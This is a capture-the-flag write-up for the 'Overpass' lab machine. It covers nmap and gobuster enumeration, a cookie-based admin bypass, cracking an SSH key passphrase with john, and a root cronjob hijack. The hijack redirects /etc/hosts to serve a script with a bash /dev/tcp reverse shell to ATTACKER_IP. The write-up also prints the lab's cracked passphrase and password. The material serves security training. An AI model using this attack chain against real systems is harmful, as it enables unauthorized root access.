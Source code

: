 ```yaml
---
title: "Overpass"
tags:
  - Easy
  - Linux
  - nmap
  - john
---
```


| Difficulty |  |  IP Address   |  |
| ---------- |--|:------------: |--|
|    Easy    |  | 10.10.138.135 |  |

---

First, I ran a basic `nmap` scan to enumerate the services that are running on the target machine.

```
sudo nmap -sC -sV -vv 10.10.138.135
```

 **Results:**

![screenshot1](../assets/images/overpass/screenshot1.png)

From the results, we can see that there are two open ports: **SSH (22)** and **HTTP (80)**.

Navigating to the HTTP website, we can see the following page:

![screenshot2](../assets/images/overpass/screenshot2.png)

Looks like the home page for a password manager called 'Overpass'.

Before carrying out our happy-path enumeration, let's use `gobuster` to see if we can enumerate any hidden directories:

```
gobuster dir -u http://10.10.138.135/ -x php,js,txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Note that I made sure to check for common extensions such as .php in the scan.

With Gobuster up and running, we can start exploring the page.

The first thing I did was to check the source code of the home page. Doing so, I noticed an interesting comment that was left behind by one of the web developers:

![screenshot3](../assets/images/overpass/screenshot3.png)

This seems to imply that their 'military grade cryptography' is actually one that was used by Romans. Furthermore, it doesn't seem to be very secure by the looks of it. Could it be the **Caesar Cipher**? Let's keep this in mind for now!

Next, on the 'Downloads' page, there are some files that we can download.

![screenshot4](../assets/images/overpass/screenshot4.png)

Before looking at those files, let's check on the results of Gobuster:

![screenshot5](../assets/images/overpass/screenshot5.png)

Nice, looks like Gobuster has managed to find an interesting javascript file: **login.js**. It has also found an admininistrator login page at **/admin**:

![screenshot6](../assets/images/overpass/screenshot6.png)

I tried some basic SQL injections but they did not work. However, I realized that the login functionality was actually exposed in the **login.js** file that was also enumerated by Gobuster earlier: 

![screenshot7](../assets/images/overpass/screenshot7.png)

Looking more closely at the `login()` function, it seems that the credentials that are inputted at the login screen are sent in a POST request to an endpoint '/api/login'. The response is then received and the data inside is stored in a variable 'statusOrCookie'. There is then a check to verify whether the user is authenticated or not. 

However, looking at the else statement which authenticates the user, if we simply create a **'SessionToken'** cookie and set any random value,  we will be redirected to the /admin page!

Let's test this out using the browser's developer tools. In there, I created a cookie called SessionToken and assigned a random value to it:

![screenshot8](../assets/images/overpass/screenshot8.png)

Upon refreshing the page, we can see that we have been authenticated and have gained access into the administrator area:

![screenshot9](../assets/images/overpass/screenshot9.png)

There is a message, along with an RSA private key. This key will probably be used to log into the SSH server that is also running on the machine. The username that uses this key could also be **james**, as he is mentioned explicitly in the message.

Let's copy this private key and try to ssh into the machine.

![screenshot10](../assets/images/overpass/screenshot10.png)

Unfortunately we need a passphrase. We can try cracking the passphrase using `john`, which is a powerful hash cracking tool. 

First, we convert the key into a format that can be cracked by `john`. To do so, we use an auxiliary tool called `ssh2john`:

```
python /usr/share/john/ssh2john.py key_rsa > key_rsa.hash 
```

Next, we use `john` on the output file from the previous command:

```
john --wordlist=/usr/share/wordlists/rockyou.txt key_rsa.hash
```

**Results**

![screenshot11](../assets/images/overpass/screenshot11.png)

Nice, `john` manages to crack james's private key passphrase:

> james13 

With that, we can log into the SSH server.

![screenshot12](../assets/images/overpass/screenshot12.png)

Now that we're logged in, we can obtain the user flag from james' home directory.

---

Next, let's find a way to escalate our privileges. 

I noticed that there was a **todo.txt** file located in james' home directory:

![screenshot13](../assets/images/overpass/screenshot13.png)

It seems that james' password is stored in the password manager (Overpass) that he implemented. I used the `find` command to locate the Overpass binary on the target machine:

```
find / -name overpass 2>/dev/null
```

The binary was found in **/usr/bin/overpass**.

I executed the binary and managed to obtain james's password by using the 'Retrieve All Passwords' option:

![screenshot14](../assets/images/overpass/screenshot14.png)

james' password is: 

> saydrawnlyingpicture

Next, let's see what **sudo privileges** james has on this machine:

![screenshot15](../assets/images/overpass/screenshot15.png)

Uh oh, looks like james does not have any sudo privileges at all. We'll need to find another privesc method.

To automate the privesc enumeration, I'll be using [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), which is a privilege escalation automation script. After running the script, LinPEAS managed to find an interesting cronjob:

![screenshot16](../assets/images/overpass/screenshot16.png)

---

**Understanding cronjobs**

Below is an example cronjob:

```
* * * * * root rm /home/someuser/tmp*
```

The `*` symbols indictate the frequency of the cronjob. The name placed after the symbols refers to the user that will run the job. Finally, the command to be run will be placed after that. In the case of the example above, the `rm /home/someuser/tmp/*` command will be run by root every minute (as shown by 5 `*` symbols).

---

How about the cronjob that was found by LinPEAS?

![screenshot18](../assets/images/overpass/screenshot18.png)

This cronjob curls a 'buildscript.sh' file from 'overpass.thm/downloads/src' every minute and pipes it over to `bash`, which will execute it. The important thing to note is that this command is executed by the root user. 

We can exploit this by creating our own buildscript.sh script, which sets up a reverse shell that connects back to our local machine. We then ensure that when the target machine connects to 'overpass.thm', it is actually connecting to us. Then, when our buildscript.sh script is downloaded and executed by the target machine, it will be executed by root, hence opening a root reverse shell.

Let's set this up!

First, I needed to know what IP address 'overpass.thm' points to. Looking at the /etc/hosts file on the target machine, we can actually see that 'overpass.thm' points to localhost:

![screenshot19](../assets/images/overpass/screenshot19.png)

I changed the IP address associated with this domain to my own IP address. Now, every time a request is made to 'overpass.thm', the target machine will check the /etc/hosts file and direct the request to my machine instead.

Next, I created a bash script called 'buildscript.sh' with the following command inside:

```
bash -i >& /dev/tcp/ATTACKER_IP/8080 0>&1
```

This is a basic reverse shell command that makes a connection back to port 8080 of my local machine.

I placed this script inside a '/downloads/src' directory within my machine. I then started up a Simple HTTP Server on port 80 using Python in this directory.

Finally, I set up a netcat listener on port 8080 using the command:

```
nc -lvnp 8080
```

After a minute has passed, we can see that my buildscript.sh was indeed downloaded by the target machine:

![screenshot20](../assets/images/overpass/screenshot20.png)

It was then executed, successfully opening the reverse shell:

![screenshot21](../assets/images/overpass/screenshot21.png)

With that, we've gained access to the target machine as root!

We can then obtain the root flag found in /root.

